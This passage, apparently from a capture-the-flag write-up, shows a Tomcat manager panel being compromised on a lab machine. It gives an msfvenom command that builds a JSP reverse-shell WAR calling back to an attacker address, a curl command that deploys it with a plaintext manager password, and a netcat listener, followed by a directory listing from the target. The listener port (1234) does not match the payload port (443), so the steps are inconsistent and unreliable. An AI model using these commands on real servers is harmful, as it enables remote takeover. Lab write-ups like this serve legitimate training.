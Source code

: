 I never worked in this panel so I had to watch some documentation first to understand it. I couldnt really do anything so in the documentation I found there was an api.



We can still deploy the `.war` file via `curl`. First, let’s make a reverse shell payload with `msfvenom`:

### Create Reverse Shell

msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.3 LPORT=443 -f war > my_reverse_shell.war

Then, using `curl`, deploy the payload:

### Upload Reverse Shell

curl --user 'tomcat:$3cureP4s5w0rd123!' --upload-file my_reverse_shell.war 'http://10.10.10.194:8080/manager/text/deploy?path=/my_reverse_shell'

Once deployed, by accessing the URL on a browser, we can trigger the payload to call back to our listener.

### Start Netcat Listener

nc -nvlp 1234

<a href="/images/projects/minor/reverse-shell.png" target="_blank" rel="some text">
  <img width="80%" src="/images/projects/minor/reverse-shell.png" alt="webpage"/>
</a>

Further enumeration found that there is a directory called `/var/www/html/files` which is owned by the user `ash`.

```
ls -la
total 48
drwxr-xr-x 4 root root  4096 Jun 17 16:24 .
drwxr-xr-x 3 root root  4096 May 21 10:31 ..
drwxr-xr-x 6 root root  4096 Mar 31  2016 assets
-rw-r--r-- 1 root root   766 Jan 13  2016 favicon.ico
drwxr-xr-x 4 ash  ash   4096 Jun 17 21:59 files 
-rw-r--r-- 1 root root 14175 Jun 17 16:24 index.php
-rw-r--r-- 1 root root  2894 May 21 11:42 logo.png
-rw-r--r-- 1 root root   123 Jun 16 11:19 news.php
-rw-r--r-- 1 root root  1574 Mar 10  2016 Readme.txt 
```

